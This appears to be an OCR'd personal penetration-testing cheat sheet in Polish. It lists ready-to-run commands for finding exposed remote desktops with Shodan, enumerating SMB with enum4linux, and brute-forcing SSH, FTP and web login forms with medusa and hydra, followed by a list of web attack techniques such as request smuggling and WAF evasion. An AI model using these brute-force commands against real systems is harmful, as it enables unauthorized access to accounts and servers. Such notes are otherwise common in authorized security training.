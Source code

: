 znajdywanie podatnych: shodan search remote desktop
https://youtu.be/xEt5VSsLRho?list=LL
.
port 8081 Konsola użytkownika blackice-icecap" to oprogramowanie administracyjne dla systemu firewall.

Wireless Application Protocol (WAP) to specyfikacja zestawu protokołów komunikacyjnych w celu standaryzacji sposobu, w jaki urządzenia bezprzewodowe, takie jak telefony komórkowe i urządzenia nadawczo-odbiorcze, mogą być używane do dostępu do Internetu, w tym poczty e-mail, sieci WWW, grup dyskusyjnych i wiadomości błyskawicznych.

./enum4linux.pl -a IP

https://www.digitalocean.com/community/tutorials/5-common-server-setups-for-your-web-application

BRUTEFORCE SSH: proxychains medusa -h 10.10.10.10 -U Username.txt -P Password.txt -M ssh -n 22

FTP hacking: medusa -H hosts.txt -U users.txt -P pass.txt -M ftp -v 6

oraz
medusa -h 10.10.1.141 -U users.txt -P pass.txt -M ftp -w 07

BRUTEFORCE ONLINE:
 musisz określić typ ataku internetowego, niezależnie od tego, czy jest to „http-post-form”, „http-get-form”, czy też wykorzystuje uwierzytelnianie podstawowe. Następnie musisz określić ścieżkę do pliku do ataku. Następnie musisz określić parametry ataku (nazwę użytkownika i hasło). Ponadto musisz określić symbole zastępcze dla użytkownika i przekazać zmienne. Na koniec musisz określić wszelkie pliki cookie. Przykład tego możesz zobaczyć poniżej:

hydra -L users.txt -P password.txt 10.0.2.5  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V

**różne ataki o których mogłem nie słyszeć/zapomnieć:**
1. Ataki desynchronizujące

2. Techniki unikania WAF (wyróżniona  malformed chunk Pawła Hałdrzyńskiego)

3. Atakowanie interfejsów internetowych MS Exchange

4.ImageMagick - Wstrzyknięcie powłoki za pomocą hasła PDF

5.Nieuwierzytelniony RCE w MobileIron MDM

6.Przemycanie nagłówków HTTP przez odwrotne serwery proxy

7. Transmisja strumieniowa NAT

8.Kiedy TLS Cię zhakuje (SSRF często ma krytyczny wpływ, ale jeśli nie ma wygodnych usług internetowych, do których można by go skierować, może wydawać się frustrująco nieszkodliwy. When TLS Hacks You to technika inspirowana wstrzykiwaniem SNI autorstwa Joshua Maddux , która w elegancki sposób łączy ponowne wiązanie DNS i wznawianie sesji TLS w celu wykorzystania wewnętrznych usług, które nie obsługują protokołu HTTP. Jak to ujął deskryptor pliku, przywrócił gopher://!)

9. Atakowanie kontekstów drugorzędnych w aplikacjach internetowych

10. Przenośna filtracja danych: XSS dla plików PDF

11.Przemyt H2C: żądanie przemytu za pośrednictwem zwykłego tekstu HTTP/2

https://portswigger.net/research/top-10-web-hacking-techniques-of-2020-nominations-open

